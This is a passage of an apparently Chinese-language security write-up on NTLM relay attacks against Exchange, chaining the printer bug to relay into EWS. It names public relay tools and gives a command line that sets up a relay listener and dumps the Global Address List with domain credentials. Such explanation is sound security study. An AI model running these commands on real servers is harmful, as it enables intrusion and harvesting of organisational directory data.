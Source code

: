   

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815133414.png)

  

但exchange默认EPA是不会开启的。下面就是找一个relay的接口，就可以进行我们的攻击了，这里选择的EWS，EWS具有下面功能

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815133415.png)

然后配合打印机漏洞便可进行攻击，攻击链如下：

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815133416.png)

  

需要的工具：

  

https://github.com/quickbreach/ExchangeRelayX

https://github.com/dirkjanm/krbrelayx/

https://github.com/SecureAuthCorp/impacket/blob/master/examples/exchanger.py

  

命令：

  

  *   *   * 

    
    
    exchangeRelayx.py -t exchange2 address -l 0.0.0.0printerbug.py domain/user:password@exchange1 attackaddressexchanger.py domain/user:password@exchange1 nspi dump-tables -name GAL

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815133417.png)

  

此类攻击在2021被修复。

  

从域认证到exchange rce

  

首先，exchange的机器账户默认属于本地管理员组

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815133418.png)

  

然后作者说了几种relay场景以及为什么不能进行relay

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815133419.png)
